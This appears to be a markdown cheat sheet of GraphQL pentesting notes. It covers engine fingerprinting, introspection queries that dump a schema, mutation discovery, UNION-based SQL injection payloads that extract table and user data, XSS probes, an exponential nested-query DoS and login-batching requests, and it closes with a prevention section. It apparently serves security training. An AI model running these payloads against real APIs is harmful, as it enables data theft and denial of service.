

### Content

- [Overview](#overview)
- [Identifying](#identifying)
- [Introspection](#introspection)
- [Mutations](#mutations)
- [Visualize the Schema](#visualize-the-schema)
- [SQLi & XSS](#sqli-&-xss)
- [DoS](#dos)
- [Batching Attacks](#batching-attacks)
- [Tools](#tools)
- [Prevention](#prevention)

---
### Overview

- [GraphQL](https://graphql.org/) is a query language typically used by web APIs.
- Enables the client to fetch required data using query languages features and syntax, such as SQL.
- Can read, update, create, or delete data.
- Typically implemented on a single endpoint that handles all queries. (the endpoint is located at `/graphql`, `/api/graphql`, or a similar URL.)
- Efficient in resource utilization and request handling over traditional REST APIs.

Query structure:

```json
{
  OBJECT_NAME {
    FIELD_1_NAME
    FIELD_2_NAME
    FIELD_3_NAME
  }
}
```

Query example:

```json
// Query
{
  users {
    id
    username
    role
  }
}

// We can add filter for a specific username

{
  users(username: "admin") {
    id
    username
    password
  }
}

// If the main object returned has an internal object also returned, we can then query sepecific fields in that object, too.

{
  posts {
    title
    author {
      username
      role
    }
  }
} 
```

Result example:

```json
{
  "data": {
    "users": [
      {
        "id": 1,
        "username": "Username1",
        "role": "user"
      },
      {
        "id": 2,
        "username": "admin",
        "role": "admin"
      }
    ]
  }
}

// Object that has subobjects 
{
  "data": {
    "posts": [
      {
        "title": "Hello World!",
        "author": {
          "username": "Username",
          "role": "user"
        }
      },
      {
        "title": "Test",
        "author": {
          "username": "test",
          "role": "user"
        }
      }
    ]
  }
}
```

---
### Identifying

Using [graphw00f](https://github.com/dolevf/graphw00f) which will send various GraphQL queries, including malformed queries, and can determine the GraphQL engine by observing the backend's behavior and error messages in response to these queries.

```bash
$ ./main.py -t http://154.57.164.81:32600 -f -d
[*] Checking http://154.57.164.81:32600
[*] Checking http://154.57.164.81:32600/
[*] Checking http://154.57.164.81:32600/api
[*] Checking http://154.57.164.81:32600/graphql
[!] Found GraphQL at http://154.57.164.81:32600/graphql
[*] Attempting to fingerprint...
[*] Discovered GraphQL Engine: (Graphene)
[!] Attack Surface Matrix: https://github.com/nicholasaleks/graphql-threat-matrix/blob/master/implementations/graphene.md
[!] Technologies: Python
[!] Homepage: https://graphene-python.org
[*] Completed.
```

`graphw00f` provides detailed page in the [GraphQL-Threat-Matrix](https://github.com/nicholasaleks/graphql-threat-matrix), which provides more in-depth information about the identified GraphQL engine.

---
### Introspection

[Introspection](https://graphql.org/learn/introspection/) is a GraphQL feature that enables users to query the GraphQL API about the structure of the backend system.

Identify all GraphQL types supported by the backend by querying the `__shcema` field:

```json
// Query
{
  __schema {
    types {
      name
    }
  }
}

// Response

{
	"name": "UserObject"
},
{
	"name": "PageInfo"
}
```

Follow up and obtain the name of all of the type's fields with the following introspection query:

```json
// Query
{
  __type(name: "UserObject") {
    name
    fields {
      name
      type {
        name
        kind
      }
    }
  }
}

// Response
{
  "data": {
    "__type": {
      "name": "UserObject",
      "fields": [
        {
          "name": "id",
          "type": {
            "name": null,
            "kind": "NON_NULL"
          }
        },
        {
          "name": "username",
          "type": {
            "name": "String",
            "kind": "SCALAR"
          }
        },
        {
          "name": "password",
          "type": {
            "name": "String",
            "kind": "SCALAR"
          }}]}}}
```

Obtain all the queries supported by the backend:

```Json
// Query
{
  __schema {
    queryType {
      fields {
        name
        description
      }
    }
  }
}

// Response
{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "users",
            "description": null
          },
          {
            "name": "posts",
            "description": null
          },
          {
            "name": "user",
            "description": null
          },
          {
            "name": "post",
            "description": null
          }
        ]
      }
    }
  }
}
```

---
### Mutations

Mutations are GraphQL queries that modify server data. They can be used to create new objects, update existing objects, or delete existing objects.

Identify all mutations and their supported arguments:

```Json
query {
  __schema {
    mutationType {
      name
      fields {
        name
        args {
          name
          defaultValue
          type {
            ...TypeRef
          }}}}}}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }}}}}}}}
```

Response Example that show that there is a mutation `registerUser` with user input argument `RegisterUserInput`:

```Json
{
  "data": {
    "__schema": {
      "mutationType": {
        "name": "Mutation",
        "fields": [
          {
            "name": "registerUser",
            "args": [
              {
                "name": "input",
                "defaultValue": null,
                "type": {
                  "kind": "NON_NULL",
                  "name": null,
                  "ofType": {
                    "kind": "INPUT_OBJECT",
                    "name": "RegisterUserInput",
                    "ofType": null
                  }}}]}]}}}}
```

Query all fields of the `RegisterUserInput` object with the following introspection query to obtain all fields that we can use in the mutation:

```json
{   
  __type(name: "RegisterUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

Response:

```Json
{
  "data": {
    "__type": {
      "name": "RegisterUserInput",
      "inputFields": [
        {
          "name": "username", "description": null, "defaultValue": null
        },
        {
          "name": "password", "description": null, "defaultValue": null
        },
        {
          "name": "role", "description": null, "defaultValue": null
        },
        {
          "name": "msg", "description": null, "defaultValue": null
        }
      ]
    }
  }
}
```

We can register a new user using these mutation arguments

```Json
mutation {
  registerUser(input: {username: "newUser", password: "MD5SUM(plaintext)", role: "user", msg: "newUser"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

---
### Visualize the Schema

introspection query that dumps all information about types, fields, and queries supported by the backend:

```Json
query IntrospectionQuery {
      __schema {
        queryType { name }
        mutationType { name }
        subscriptionType { name }
        types {
          ...FullType
        }
        directives {
          name
          description
          
          locations
          args {
            ...InputValue
          }
        }
      }
    }

    fragment FullType on __Type {
      kind
      name
      description
      
      fields(includeDeprecated: true) {
        name
        description
        args {
          ...InputValue
        }
        type {
          ...TypeRef
        }
        isDeprecated
        deprecationReason
      }
      inputFields {
        ...InputValue
      }
      interfaces {
        ...TypeRef
      }
      enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
      }
      possibleTypes {
        ...TypeRef
      }
    }

    fragment InputValue on __InputValue {
      name
      description
      type { ...TypeRef }
      defaultValue
    }

    fragment TypeRef on __Type {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                  }}}}}}}}
```

Visualize the schema using the tool [GraphQL-Voyager](https://github.com/graphql-kit/graphql-voyager) by using its life viewer [GraphQL Demo](https://graphql-kit.com/graphql-voyager/), click `CHANGE SCHEMA` and select `INTROSPECTION`. After pasting the result of the above introspection query in the text field and clicking on `DISPLAY`, the backend's GraphQL schema is visualized for us.

---
### SQLi & XSS

SQL:

```JSON
// Request
{
  user(username: "admin") {
    username
  }
}
// Response
{
  "data": {
    "user": {
      "username": "admin"
    }
  }
}
// Request
{
  user(username: "admin'") {
    username
  }
}
// Response
{
  "errors": [
    {
      "message": "(pymysql.err.ProgrammingError) (1064, \"You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''admin'' \\n LIMIT 1' at line 3\")\n[SQL: SELECT user.uuid AS user_uuid, user.id AS user_id, user.username AS user_username, user.password AS user_password, user.role AS user_role, user.msg AS user_msg \nFROM user \nWHERE username='admin'' \n LIMIT %(param_1)s]\n[parameters: {'param_1': 1}]\n(Background on this error at: https://sqlalche.me/e/20/f405)",
      "locations": [
        {
          "line": 2,
          "column": 3
        }
      ],
      "path": [
        "user"
      ]
    }
  ],
  "data": {
    "user": null
  }
}
// Request - List the tables in the database
{
  user(username: "x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") {
    username
  }
}
// Response
{
  "data": {
    "user": {
      "username": "user,secret,flag,post"
    }
  }
}
// Request - the columns names in a specific table
{
  user(username: "x' UNION SELECT 1,2,GROUP_CONCAT(column_name),4,5,6 FROM information_schema.columns WHERE table_name='secret'-- -") {
    username
  }
}
// Response
{
  "data": {
    "user": {
      "username": "uuid,id,username,password,role,msg"
    }
  }
}
// Request - every row in a column from a table
{
  user(username: "x' UNION SELECT 1,2,GROUP_CONCAT(username),4,5,6 FROM user-- -") {
    username
  }
}
// Response
{
  "data": {
    "user": {
      "username": "user1,user2,user3"
    }
  }
}
```

Trying XSS to see if it will reflect in the output:

```Json
// Request
{
  user(username: "<script>alert(1)</script>") {
    username
  }
}
// Response
{
  "data": {
    "user": null
  }
}
// Request
{
  post(id: "<script>alert(1)</script>") {
    title
  }
}
// Response
{
  "errors": [
    {
      "message": "Argument \"id\" has invalid value \"<script>alert(1)</script>\".\nExpected type \"Int\", found \"<script>alert(1)</script>\".",
      "locations": [
        {
          "line": 2,
          "column": 12
        }
      ]
    }
  ]
}
```

---
### DoS

Depending on the GraphQL API's configuration, we can create queries that result in exponentially large responses, requiring significant resources to process.

To execute a DoS attack, we must identify a way to construct a query that results in a large response. Suppose we have the following schema:



We can identify a loop between the `UserObject` and `PostObject` via the `author` and `posts` fields: We can abuse this loop by constructing a query that queries the author of all posts. For each author, we then query the author of all posts again. If we repeat this many times, the result grows exponentially larger, potentially resulting in a DoS scenario.

Since the `posts` object is a `connection`, we need to specify the `edges` and `node` fields to obtain a reference to the corresponding `Post` object.

```Json
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              posts {
                edges {
                  node {
                    author {
                      posts {
                        edges {
                          node {
                            author {
                              posts {
                                edges {
                                  node {
                                    author {
                                      posts {
                                        edges {
                                          node {
                                            author {
                                              posts {
                                                edges {
                                                  node {
                                                    author {
                                                      posts {
                                                        edges {
                                                          node {
                                                            author {
                                                              posts {
                                                                edges {
                                                                  node {
                                                                    author {
                                                                      username
                                                                    }}}}}}}}}}}}}}}}}}}}}}}}}}}}}}}}}}}
```

---
### Batching Attacks

Batching in GraphQL refers to executing multiple queries with a single request, which is an intended feature that can be enabled or disabled. However, batching can lead to security issues if GraphQL queries are used for sensitive processes such as user login. Using GraphQL batching, an attacker can put multiple login queries into a single HTTP request. Assuming the attacker constructs an HTTP request containing 1000 different GraphQL login queries

query the ID of the user `admin` and the title of the first post in a single request:

```http
POST /graphql HTTP/1.1
Host: 172.17.0.2
Content-Length: 86
Content-Type: application/json

[
    {
        "query":"{user(username: \"admin\") {uuid}}"
    },
    {
        "query":"{post(id: 1) {title}}"
    }
]
```

---
### Tools

- [GraphQL-Cop](https://github.com/dolevf/graphql-cop) is a security audit tool for GraphQL APIs.

```bash
$ python3 graphql-cop/graphql-cop.py -t http://172.17.0.2/graphql
```

- [InQL](https://github.com/doyensec/inql) is a Burp extension we can install via the `BApp Store` in Burp. After a successful installation, an `InQL` tab is added in Burp.

The extension adds `GraphQL` tabs in the Proxy History and Burp Repeater that enable simple modification of the GraphQL query without having to deal with the encompassing JSON syntax: inside the repeater tap, we can right-click on a GraphQL request and select `Extensions > InQL - GraphQL Scanner > Generate queries with InQL Scanner`.

Afterward, `InQL` generates introspection information. The information regarding all mutations and queries is provided in the `InQL` tab for the scanned host.

---
### Prevention

##### Information Disclosure

Disable introspection queries when possible, suppress verbose error messages, and ensure no sensitive data leaks through generic error responses.

##### Injection Attacks

Treat all user input as untrusted. Sanitize and validate everything, preferring white lists over black lists to prevent SQLi, command injection, and XSS.

##### Denial-of-Service (DoS)

Limit query depth, query size, and request rate. Disable batching where unnecessary; if batching is needed, enforce strict depth limits to prevent amplification attacks.

##### API Design

Apply least privilege across the board. Require authentication to access the GraphQL endpoint, enforce authorization checks on all queries and mutations, and guard against IDOR and improper access control.

For more details on securing GraphQL APIs, check out OWASP's [GraphQL Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html).